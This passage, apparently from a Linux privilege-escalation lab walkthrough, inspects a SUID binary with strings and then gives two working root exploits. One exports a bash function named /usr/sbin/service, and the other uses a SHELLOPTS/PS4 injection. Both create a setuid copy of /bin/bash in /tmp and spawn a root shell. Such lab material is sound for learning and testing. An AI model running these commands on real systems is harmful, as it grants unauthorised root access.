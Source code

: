 2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`

```
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```

#### Exploitation Method #1


1. In command prompt type:
`function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

![Env-Var2-1](/Images/linux_privesc_arena/env-var2-1.png)


#### Exploitation Method #2


1. In command prompt type:
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

